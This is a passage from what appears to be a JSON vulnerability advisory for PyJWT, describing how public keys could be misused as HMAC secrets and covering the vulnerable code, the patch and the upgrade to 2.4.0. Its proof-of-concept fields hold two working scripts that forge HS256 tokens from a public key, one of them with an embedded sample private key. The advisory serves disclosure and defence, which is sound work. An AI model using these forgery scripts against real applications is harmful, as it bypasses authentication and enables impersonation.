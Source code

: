 ```
    "description": "PyJWT supports multiple JWT signing algorithms. It requires the application to specify the supported algorithms.  If the application uses `jwt.algorithms.get_default_algorithms()` it will enable all algorithms. The library attempts to prevent certain attacks, for example: the 'none' algorithm requires an empty key; and HMAC algorithms will reject keys that look like public keys (e.g. starting with 'ssh-rsa').  However, the library does not properly enforce this for  `ed25519`, allowing public keys to be used with HMAC algorithms. \n\nThis means that if an application receives a token using an HMAC algorithm (e.g. HS256) and it uses a public key as the key, the token would validate.",
    "poc": [
      "```python\nimport jwt\nfrom cryptography.hazmat.primitives import serialization\nfrom cryptography.hazmat.primitives.asymmetric import ed25519\n\n# Generate ed25519 private key\nprivate_key = ed25519.Ed25519PrivateKey.generate()\n\n# Get private key bytes as they would be stored in a file\npriv_key_bytes =\nprivate_key.private_bytes(encoding=serialization.Encoding.PEM,format=serialization.PrivateFormat.PKCS8,\nencryption_algorithm=serialization.NoEncryption())\n\n# Get public key bytes as they would be stored in a file\npub_key_bytes =\nprivate_key.public_key().public_bytes(encoding=serialization.Encoding.OpenSSH,format=serialization.PublicFormat.OpenSSH)\n\n# Making a good jwt token that should work by signing it with the\nprivate key\nencoded_good = jwt.encode({\"test\": 1234}, priv_key_bytes, algorithm=\"EdDSA\")\n\n# Using HMAC with the public key to trick the receiver to think that the\npublic key is a HMAC secret\nencoded_bad = jwt.encode({\"test\": 1234}, pub_key_bytes, algorithm=\"HS256\")\n\n# Both of the jwt tokens are validated as valid\ndecoded_good = jwt.decode(encoded_good, pub_key_bytes,\nalgorithms=jwt.algorithms.get_default_algorithms())\ndecoded_bad = jwt.decode(encoded_bad, pub_key_bytes,\nalgorithms=jwt.algorithms.get_default_algorithms())\n\nif decoded_good == decoded_bad:\n  print(\"POC Successfull\")\n```",
      "```python\nimport jwt\n\n#openssl ecparam -genkey -name prime256v1 -noout -out ec256-key-priv.pem\n#openssl ec -in ec256-key-priv.pem -pubout > ec256-key-pub.pem\n#ssh-keygen -y -f ec256-key-priv.pem > ec256-key-ssh.pub\n\npriv_key_bytes = b\"\"\"-----BEGIN EC PRIVATE KEY-----\nMHcCAQEEIOWc7RbaNswMtNtc+n6WZDlUblMr2FBPo79fcGXsJlGQoAoGCCqGSM49\nAwEHoUQDQgAElcy2RSSSgn2RA/xCGko79N+7FwoLZr3Z0ij/ENjow2XpUDwwKEKk\nAk3TDXC9U8nipMlGcY7sDpXp2XyhHEM+Rw==\n-----END EC PRIVATE KEY-----\"\"\"\n\npub_key_bytes = b\"\"\"-----BEGIN PUBLIC KEY-----\nMFkwEwYHKoZIzj0CAQYIKoZIzj0DAQcDQgAElcy2RSSSgn2RA/xCGko79N+7FwoL\nZr3Z0ij/ENjow2XpUDwwKEKkAk3TDXC9U8nipMlGcY7sDpXp2XyhHEM+Rw==\n-----END PUBLIC KEY-----\"\"\"\n\nssh_key_bytes = b\"\"\"ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJXMtkUkkoJ9kQP8QhpKO/TfuxcKC2a92dIo/xDY6MNl6VA8MChCpAJN0w1wvVPJ4qTJRnGO7A6V6dl8oRxDPkc=\"\"\"\n\n# Making a good jwt token that should work by signing it with the private key\nencoded_good = jwt.encode({\"test\": 1234}, priv_key_bytes, algorithm=\"ES256\")\n\n# Using HMAC with the ssh public key to trick the receiver to think that the public key is a HMAC secret\nencoded_bad = jwt.encode({\"test\": 1234}, ssh_key_bytes, algorithm=\"HS256\")\n\n# Both of the jwt tokens are validated as valid\ndecoded_good = jwt.decode(encoded_good, ssh_key_bytes, algorithms=jwt.algorithms.get_default_algorithms())\ndecoded_bad = jwt.decode(encoded_bad, ssh_key_bytes, algorithms=jwt.algorithms.get_default_algorithms())\n\nif decoded_good == decoded_bad:\n    print(\"POC Successfull\")\nelse:\n    print(\"POC Failed\")\n```"
    ],
    "affected_code": "The vulnerability is in how the `prepare_key` function within the `OKPAlgorithm` class in `jwt/algorithms.py` handles key formats. It incorrectly loads public keys from PEM/OpenSSH formats and allows them to be used with HMAC algorithms due to insufficient type checking. The relevant part of the code is:\n```python\n        if isinstance(\n            key,\n            (Ed25519PrivateKey, Ed25519PublicKey, Ed448PrivateKey, Ed448PublicKey),\n        ):\n            return key\n\n        if isinstance(key, (bytes, str)):\n            if isinstance(key, str):\n                key = key.encode(\"utf-8\")\n            str_key = key.decode(\"utf-8\")\n\n            if \"-----BEGIN PUBLIC\" in str_key:\n                return load_pem_public_key(key)\n            if \"-----BEGIN PRIVATE\" in str_key:\n                return load_pem_private_key(key, password=None)\n            if str_key[0:4] == \"ssh-\":\n                return load_ssh_public_key(key)\n```",
    "patched_code": "The fix involves adding an explicit check to prevent public keys from being used with HMAC algorithms. It ensures that only symmetric keys (or an empty key for the 'none' algorithm) can be used with HMAC.\nThis is done by modifying the `prepare_key` function in the `HMACAlgorithm` class to check if the key is a PEM or SSH key format and raise an `InvalidKeyError`.\n```python\n    def prepare_key(self, key):\n        key = force_bytes(key)\n\n        if is_pem_format(key) or is_ssh_key(key):\n            raise InvalidKeyError(\n                \"The specified key is an asymmetric key or x509 certificate and\"\n                \" should not be used as an HMAC secret.\"\n            )\n\n        return key\n```"
  },
  "remediation": {
    "patches": "Upgrade to `pyjwt` version 2.4.0 or later.",
```
